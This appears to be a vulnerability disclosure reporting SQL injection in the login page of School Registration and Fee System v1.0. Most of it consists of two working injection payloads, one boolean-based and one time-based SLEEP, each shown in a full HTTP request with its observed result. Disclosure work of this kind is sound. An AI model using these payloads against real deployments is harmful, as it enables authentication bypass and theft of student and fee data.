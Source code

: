 # School Registration and Fee System v1.0 has SQL injection

BUG_Author:saintone98

Website source address:https://www.sourcecodester.com/php/10932/school-registration-and-fee-system.html

Vulnerability File: /bilal final/login.php

POST parameter 'username' exists SQL injection vulnerability

Payload1: username=1'+OR+NOT+1207%3D1206%23&password=2

```
POST /bilal%20final/login.php HTTP/1.1
Host: localhost
Content-Length: 44
sec-ch-ua: "Chromium";v="97", " Not;A Brand";v="99"
Accept: */*
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
X-Requested-With: XMLHttpRequest
sec-ch-ua-mobile: ?0
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/97.0.4692.71 Safari/537.36
sec-ch-ua-platform: "Windows"
Origin: http://localhost
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: cors
Sec-Fetch-Dest: empty
Referer: http://localhost/bilal%20final/
Accept-Encoding: gzip, deflate
Accept-Language: en,zh-CN;q=0.9,zh;q=0.8
Cookie: PHPSESSID=2vcgmn9u7h75h5jbjdi1d2e871
Connection: close

username=1'+OR+NOT+1207%3D1206%23&password=2
```

An error occurred in the sql statement

![image](https://github.com/saintone98/picture/blob/main/error.png)

Payload2: username=1'+AND+(SELECT+2+FROM+(SELECT(SLEEP(10)))a)--+b&password=2

```
POST /bilal%20final/login.php HTTP/1.1
Host: localhost
Content-Length: 67
sec-ch-ua: "Chromium";v="97", " Not;A Brand";v="99"
Accept: */*
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
X-Requested-With: XMLHttpRequest
sec-ch-ua-mobile: ?0
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/97.0.4692.71 Safari/537.36
sec-ch-ua-platform: "Windows"
Origin: http://localhost
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: cors
Sec-Fetch-Dest: empty
Referer: http://localhost/bilal%20final/
Accept-Encoding: gzip, deflate
Accept-Language: en,zh-CN;q=0.9,zh;q=0.8
Cookie: PHPSESSID=2vcgmn9u7h75h5jbjdi1d2e871
Connection: close

username=1'+AND+(SELECT+2+FROM+(SELECT(SLEEP(10)))a)--+b&password=2
```

The server's response time is 10 seconds

![image](https://github.com/saintone98/picture/blob/main/tenSec.png)

